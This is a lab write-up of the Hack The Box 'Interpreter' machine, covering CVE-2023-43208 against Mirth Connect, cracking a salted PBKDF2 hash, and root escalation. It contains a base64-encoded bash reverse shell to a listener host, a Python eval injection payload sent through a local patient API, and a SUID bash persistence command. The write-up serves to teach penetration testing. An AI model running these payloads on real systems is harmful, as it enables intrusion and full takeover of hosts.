

# Introduction
Interpreter is a medium [HTB machine](https://app.hackthebox.com/machines/Interpreter) running a vulnerable version of Mirth Connect, an open-source healthcare integration engine. The box covers CVE exploitation for initial foothold, hash analysis and cracking for lateral movement, and Python f-string injection via a locally hosted API server for root privilege escalation.
# Reconnaissance
```bash
┌──(mike㉿thinkpad)-[~]
└─$ nmap -sC -sV 10.129.25.113
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-03 16:49 EDT
Nmap scan report for 10.129.25.113
Host is up (0.071s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey:
|   256 07:eb:d1:b1:61:9a:6f:38:08:e0:1e:3e:5b:61:03:b9 (ECDSA)
|_  256 fc:d5:7a:ca:8c:4f:c1:bd:c7:2f:3a:ef:e1:5e:99:0f (ED25519)
80/tcp  open  http     Jetty
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Mirth Connect Administrator
443/tcp open  ssl/http Jetty
| http-methods:
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=mirth-connect
| Not valid before: 2025-09-19T12:50:05
|_Not valid after:  2075-09-19T12:50:05
|_http-title: Mirth Connect Administrator
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.51 seconds
```
	
The web page:


I'll download the launcher/installer using curl, and identify the version number (4.4.0):
```java
<jnlp codebase="http://10.129.25.113:80" version="4.4.0">
    <information>
        <title>Mirth Connect Administrator 4.4.0</title>
        <vendor>NextGen Healthcare</vendor>
        <homepage href="http://www.nextgen.com"/>
        <description>Open Source Healthcare Integration Engine</description>
        <icon href="images/NG_MC_Icon_128x128.png"/>
        <icon href="images/MirthConnect_Logo_WordMark_Big.png" kind="splash"/>
```


# Foothold
Mirth Connect version 4.4.0 corresponds to a well-known [CVE-2023-43208](https://nvd.nist.gov/vuln/detail/cve-2023-43208) which can be exploited using [jakabakos' PoC](https://github.com/jakabakos/CVE-2023-43208-mirth-connect-rce-poc). We can pass a command here which I'll assume can be a standard reverse shell: `base -c 'bash -i >& /dev/tcp/10.10.14.84/4444 0>&1'` where we set up a netcat listener on `4444`: `nc -lvnp 4444`. Unfortunately, this wasn't successful. I decided to pass a *no-space base64 encoded string* into the PoC by first encoding the shell:

```bash
echo -n 'bash -i >& /dev/tcp/10.10.14.84/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44NC80NDQ0IDA+JjE=
```

Then it's as simple as:
`python3 CVE-2023-43208.py -u https://10.129.25.113/ -c "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44NC80NDQ0IDA+JjE=}|{base64,-d}|bash"`

# User Privilege Escalation
Peering around in our files we see `conf/mirth.properties` which reveals a mariadb username and password, which is running on our box (denoted by port 3306):
```bash
mirth@interpreter:/usr/local/mirthconnect$ ss -tlnp
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
LISTEN 0      80         127.0.0.1:3306       0.0.0.0:*
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*
LISTEN 0      50           0.0.0.0:80         0.0.0.0:*    users:(("java",pid=3513,fd=327))
LISTEN 0      128        127.0.0.1:54321      0.0.0.0:*
LISTEN 0      50           0.0.0.0:443        0.0.0.0:*    users:(("java",pid=3513,fd=331))
LISTEN 0      256          0.0.0.0:6661       0.0.0.0:*    users:(("java",pid=3513,fd=335))
LISTEN 0      128             [::]:22            [::]:*
```

Database `mc_bdd_prod` contains tables `PERSON` and `PERSON_PASSWORD`, where `PERSON_PASSWORD` contains a hash (denoted by the column "PASSWORD") in some format. The `PERSON_ID` column that matches with the only hash in the table is `2`, which aligns with username `sedric` listed in table `PERSON`. Our next step is figuring out what kind of hash this is:
sedric hash: `u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==`

A quick Google search for "mirth connect hash format"[ reveals that Mirth Connect versions >=4.4.0 uses a "PBKDF2WithHmacSHA256" hash type](https://docs.nextgen.com/en-US/mirthc2ae-connect-by-nextgen-healthcare-user-guide-3281761/default-digest-algorithm-in-mirthc2ae-connect-4-4-62159) with a[ default iteration count](https://img2.helpnetsecurity.com/dl/articles/KeyIterations&CryptoSalts.pdf) of 600000. Our hash is **40 bytes**:
```
echo "u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==" | base64 -d | wc -c
40
```

It's likely that our *8 extra bytes* (considering that SHA256 is 32 bytes, 256 bits = 32 bytes) is our **salt**. To extract our hash, we:
1. Decode our base64-encoded hash: `| base64 -d`
2. Grab the first 8 bytes: `| head -c 8`
3. Re-encode our extracted 8 bytes into base64: `| base64`

In full: `echo "u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==" | base64 -d | head -c 8 | base64` (for the first 8 bytes) Using `tail -c 32` to grab the last 32 bytes will likely be our unsalted hash. Combining our results in the format of `salt:hash`, and [prepending the necessary specs](https://hashcat.net/wiki/doku.php?id=example_hashes) (SHA-256 and iteration count), we get the following base64-encoded string (with colons separating the salt from the hash):
```
sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=
```

After using hashcat to crack our password, we can ssh into the machine using our credentials for the user sedric.

# Root Privilege Escalation
I decided to run the enumeration tool linpeas.sh once again to see if any certain files or privileges were made available exclusively to the user sedric. I went down a few rabbit holes before I fully checked out the API server being hosted on localhost port 54321 with the code available to read at `/usr/local/bin/notif.py`.



```python
#!/usr/bin/env python3
"""
Notification server for added patients.
This server listens for XML messages containing patient information and writes formatted notifications to files in /var/secure-health/patients/.
It is designed to be run locally and only accepts requests with preformated data from MirthConnect running on the same machine.
It takes data interpreted from HL7 to XML by MirthConnect and formats it using a safe templating function.
"""
from flask import Flask, request, abort
import re
import uuid
from datetime import datetime
import xml.etree.ElementTree as ET, os
...
@app.route("/addPatient", methods=["POST"])
def receive():
    if request.remote_addr != "127.0.0.1":
        abort(403)
```

From the snippet above, we can infer that making POST requests to the endpoint `/addPatient` must be done through localhost (which isn't a problem with a shell on user sedric). Importantly, we can see that anything executed by this API server is executed by user root:
```bash
sedric@interpreter:~$ ls -l /usr/local/bin/notif.py
-rwxr----- 1 root sedric 2332 Sep 19  2025 /usr/local/bin/notif.py
```

Just to confirm that we can make XML requests to this endpoint, we'll craft a standard dummy request (using `wget` because `curl` is not available on this box):
```bash
wget -q -O - --post-data='<patient><firstname>John</firstname><lastname>Smith</lastname><sender_app>app</sender_app><timestamp>12/12/2024</timestamp><birth_date>01/01/1990</birth_date><gender>M</gender></patient>' --header='Content-Type: application/xml' http://127.0.0.1:54321/addPatient
Patient John Smith (M), 36 years old, received from app at 12/12/2024
```

Taking a closer look at `notif.py` reveals an interesting fact, that the accepted regex pattern that our POST requests are passed through includes strange characters (`{}`, `()`, `_`, etc.) that we can use to pass in arbitrary Python code:
```python
def template(first, last, sender, ts, dob, gender):
    pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
        if not pattern.fullmatch(s):
            return "[INVALID_INPUT]"
```
*More information about Python code injection can be found [here](https://semgrep.dev/docs/cheat-sheets/python-code-injection) and [here](https://vk9-sec.com/exploiting-python-eval-code-injection/).*

So, we can craft a payload that executes arbitrary Python code as root by passing a POST request from any user on localhost. I guess it's suitable to create an SUID binary. To make our payload easier to read, we'll put the bulk of what we want root to execute in a world-readable file in `/tmp/pwn.sh`:
```bash
echo "cp /bin/bash /tmp/bash && chmod +s /tmp/bash" > /tmp/pwn.sh
```
Where we put a copy of a `bash` binary in a directory that `sedric` has full permissions of (like `/tmp`) and give it improper SUID permissions (`chmod +s`).

We'll craft our XML request to inject a Python expression into the `firstname` field. Since the server passes this field directly into an `eval()`'d f-string, wrapping our payload in `{}` causes it to be executed as Python code by the root-owned process:
```bash
wget -q -O - --post-data='<patient><firstname>{__import__("os").popen("/tmp/pwn.sh").read()}</firstname><lastname>Smith</lastname><sender_app>app</sender_app><timestamp>12/12/2024</timestamp><birth_date>01/01/1990</birth_date><gender>M</gender></patient>' --header='Content-Type: application/xml' http://127.0.0.1:54321/addPatient
Patient  Smith (M), 36 years old, received from app at 12/12/2024
```

Using flag `-p` to call `/tmp/bash`, we specify that we want to run with the [effective UID](https://stackoverflow.com/questions/32455684/difference-between-real-user-id-effective-user-id-and-saved-user-id) of root:
`sedric@interpreter:~$ /tmp/bash -p`
# Reflection
I learned some really cool things during this box. The first thing I learned about was that *some boxes are privy to weird characters*, notably the ones found in reverse shells. A straightforward way to get around this is to base64 encode the payload with the many shell-escaping characters it may include.

I also learned a bit about hashes. SHA256, as its name implies, is 256 bits = 32bytes, and we could potentially identify an embedded salt in a hash if we find that its byte count exceeds the expected value. Extracting the individual salt and password bytes and concatenating them into a single base64 string (with a delineator of some kind) was what led to a successful crack.

I got to learn about XML Python injection as well as a reminder of SUID manipulation for privilege escalation.
